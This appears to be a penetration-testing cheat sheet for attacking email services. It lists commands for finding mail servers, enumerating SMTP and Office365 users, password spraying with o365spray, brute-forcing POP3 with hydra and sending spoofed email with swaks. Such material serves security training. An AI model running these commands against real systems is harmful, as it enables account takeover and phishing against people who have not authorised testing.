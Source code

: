 # Attacking Email Services

| Command                                                                                     | Description                                                                      |
| ------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| ```host -t MX microsoft.com```                                                                  | DNS lookup for mail servers for the specified domain.                            |
| ```dig mx example.com \| grep "MX" \| grep -v ";"```                                     | DNS lookup for mail servers for the specified domain.                            |
| ```host -t A mail1.example.com.```                                                        | DNS lookup of the IPv4 address for the specified subdomain.                      |
| ```telnet $TARGET_IP 25```                                                                    | Connect to the SMTP server.                                                      |
| ```smtp-user-enum -M RCPT -U userlist.txt -D example.com -t $TARGET_IP```               | SMTP user enumeration using the RCPT command against the specified host.         |
| ```python3 o365spray.py --validate --domain msplaintext.xyz```                                  | Verify the usage of Office365 for the specified domain.                          |
| ```python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz```                         | Enumerate existing users using Office365 on the specified domain.                |
| ```python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz``` | Password spraying against a list of users that use Office365 for the specified domain. |
| ```hydra -L users.txt -p 'Company01!' -f $TARGET_IP pop3```                                   | Brute-forcing the POP3 service.                                                  |
| ```swaks --from notifications@example.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server $TARGET_IP``` | Send email using SWAKS (Swiss Army Knife for SMTP).                               |

